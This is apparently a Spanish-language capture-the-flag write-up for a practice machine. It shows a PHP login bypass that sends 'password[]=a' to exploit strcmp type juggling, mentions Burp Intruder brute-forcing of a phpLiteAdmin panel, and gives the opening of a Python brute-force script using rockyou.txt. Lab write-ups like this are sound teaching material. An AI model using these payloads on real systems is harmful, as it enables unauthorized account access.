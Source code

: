 
```bash
POST /login.php HTTP/1.1
Host: 10.10.10.10
User-Agent: ...
Cookie: PHPSESSID=o36osnz71uw900ln395jhs

username=admin&password=admin
```

cambiandole el payload de la siguiente manera nos loggea sin problema

```bash
POST /login.php HTTP/1.1
Host: 10.10.10.10
User-Agent: ...
Cookie: PHPSESSID=o36osnz71uw900ln395jhs

username=admin&password[]=a
```

El symbolo 
```bash
 [] 
```
 cambia el tipo de variable y el 
```bash
 strcmp() 
```
 lo acepta. 

### Ataque de tipo intruder con burpsuite para el panel en el puerto 443 {-}

Para el panel de authentification del **phpLiteAdmin**, utilizamos la misma tecnica que para el panel de authentification del puerto 80 (Burpsuite).
De esta manera tambien encontramos la contraseña y nos podemos conectar a la base de datos.

### Bruteforcear la contraseña con python {-}

Este seria la manera de bruteforcear la contraseña con python. Este Script tambien nos viene del compañero s4dbrd.

```python
#!/usr/bin/python3

import requests
import pdb
import sys
import signal
import urllib3


urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from pwn import *

# Variables Globales
login_url = 'https://nineveh.htb/db/index.php'


f = open("rockyou.txt", "r")

def def_handler(sig, frame):
    print("\n\nSaliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

```